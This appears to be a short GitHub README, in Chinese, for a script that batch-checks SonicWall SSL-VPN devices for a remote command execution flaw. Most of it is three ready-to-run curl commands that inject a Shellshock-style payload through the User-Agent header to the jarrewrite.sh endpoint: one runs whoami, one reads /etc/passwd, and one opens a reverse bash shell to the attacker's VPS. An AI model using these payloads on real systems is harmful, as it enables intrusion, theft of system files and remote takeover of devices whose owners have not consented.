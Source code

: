# SonicWallSSL-VPN_RCE
一个简单的SonicWallSSL-VPN远程命令执行批量验证脚本
脚本写得比较简单，主要是对于批量url检测比较实用，单个url检测直接在命令行检测即可，类似于
curl -A "() { :; }; echo ; /bin/bash -c 'whoami'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k
curl -A "() { :; }; echo ; /bin/bash -c 'cat /etc/passwd'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k
curl -A "() { :; }; echo ; /bin/bash -c ' bash -i >& /dev/tcp/VPS的IP/1234  0>&1 '" https://x.x.x.x/cgi-bin/jarrewrite.sh -k
